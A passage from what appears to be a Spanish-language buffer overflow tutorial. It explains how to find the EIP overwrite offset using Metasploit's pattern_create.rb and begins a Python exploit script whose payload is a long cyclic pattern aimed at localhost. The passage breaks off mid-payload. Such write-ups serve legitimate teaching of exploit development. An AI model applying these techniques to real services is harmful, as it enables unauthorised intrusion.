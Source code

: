 Como atacante, ahora tenemos que saver cuantas **A** tenemos que meter para sobre escribir el **EIP** con el valor que nosotros queremos meter.
La technica para que sea visual seria ponerl 0x42424242 al EIP que serian cuatro vecez la lettra **B**.

Hay una utlidad que nos permitte crear un pattern de caracteres aleatorios para encontrar mas facilmente donde se encuentra el EIP o mejor dicho cuantas **A**
tengo que poner antes de ponerle las **B**.

En la maquina de atacante

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
```

esto lo podemos copiar y ponerlo en nuestro exploit.

```python
#!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time

from pwn import *
from struct import pack

# Variables globales
remoteAddress = "127.0.0.1"

def executeExploit():
    payload = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7A
    e8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak
    0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2
    Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4A
    u5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az
    7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9
    Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1B
    k2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp
    4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6
    Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8B
    z9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf
    1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3
    Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5C
    p6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9Cs0Cs1Cs2Cs3Cs4Cs5Cs6Cs7Cs8Cs9Ct0Ct1Ct2Ct3Ct4Ct5Ct6Ct7Ct8Ct9Cu0Cu1Cu2Cu3Cu4Cu5Cu6Cu7Cu
    8Cu9Cv0Cv1Cv2Cv3Cv4Cv5Cv6Cv7Cv8Cv9Cw0Cw1Cw2Cw3Cw4Cw5Cw6Cw7Cw8Cw9Cx0Cx1Cx2Cx3Cx4Cx5Cx6Cx7Cx8Cx9Cy0Cy1Cy2Cy3Cy4Cy5Cy6Cy7Cy8Cy9Cz0Cz1Cz2Cz3Cz4Cz5Cz6Cz7Cz8Cz9Da0
    Da1Da2Da3Da4Da5Da6Da7Da8Da9Db0Db1Db2Db3Db4Db5Db6Db7Db8Db9Dc0Dc1Dc2Dc3Dc4Dc5Dc6Dc7Dc8Dc9Dd0Dd1Dd2Dd3Dd4Dd5Dd6Dd7Dd8Dd9De0De1De2De3De4De5De6De7De8De9Df0Df1Df2D
```